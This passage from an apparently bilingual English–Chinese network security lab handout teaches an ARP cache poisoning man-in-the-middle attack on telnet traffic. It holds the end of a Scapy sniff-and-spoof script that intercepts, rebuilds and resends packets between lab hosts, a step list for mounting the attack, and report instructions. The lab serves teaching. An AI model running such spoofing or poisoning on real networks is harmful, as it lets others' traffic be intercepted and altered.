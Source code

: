 >            
>    		print("Spoofed Packet.  ")
>    		print("Source IP : ", newpkt[IP].src)
>    		print("Destination IP :", newpkt[IP].dst)
>    		send(newpkt)
>    
>    	elif pkt[Ether].src =='08:00:27:26:fb:90' and  pkt[IP].src == "10.0.2.5" and pkt[IP].dst == '10.0.2.15' :
>    		a = IP(src = "10.0.2.5",dst = "10.0.2.15")
>    		b = TCP(sport = pkt[IP].sport,dport = pkt[IP].dport)
>    		data = pkt[TCP].payload
>    		newpkt = a/b/data
>    		send(newpkt)
>            
>    pkt = sniff(filter = 'tcp',prn=spoof_pkt)                                      
>    ```
>
> 2. telnet连接建立后，关闭IP转发功能
>
> 3. A发给B的数据包，经M修改后再次发送给B
>
> 4. B给的回应，经过M修改后，转发给A
>
> 5. A的界面上依旧无法显示任何内容。但是过了一段时间，由于A获取不到信息，导致重新发送ARP报文，当获取到B的正确mac地址后，就能正常显示了

Here is a summary what we need to do in order to launch the MITM attack.

为了发起中间人攻击，以下汇总了我们需要做的事情。

- Conduct ARP cache poisoning attacks against（针对） Hosts A and B.

  对主机A和B进行ARP缓存中毒攻击

- Turn on IP forwarding on Host M.

  在主机M上开启IP转发功能

- Telnet from host A to Host B.

  从主机A向B发起telnet

- After the Telnet connection has been established, turn off IP forwarding.

  在telnet连接被建立后，关闭IP转发功能

- Conduct the sniff and spoof attack on Host M.

  在主机M上发起嗅探和欺骗攻击

<br>

# 4. Submission

**4.提交投稿**

Students need to submit a detailed lab report to describe what they have done, what they have observed, and how they interpret（阐释） the results. Reports should include evidences to support the observations. Evidences include packet traces, screenshots, etc. Reports should also list the important code snippets（一小块或简短的摘录。） with explanations. Simply attaching（附带） code without any explanation will not receive credits（信用，学分）.

学生需要上传一份细节实验报告来描述他们做了哪些操作，他们发现了什么，以及他们是怎么解释结果。报告中应该包含证据来支撑他们的发现。证据包含数据包追踪，截屏等等。报告中还应该列出带有解释的重要部分代码。没有任何解释的简单附加代码将不会获得学分。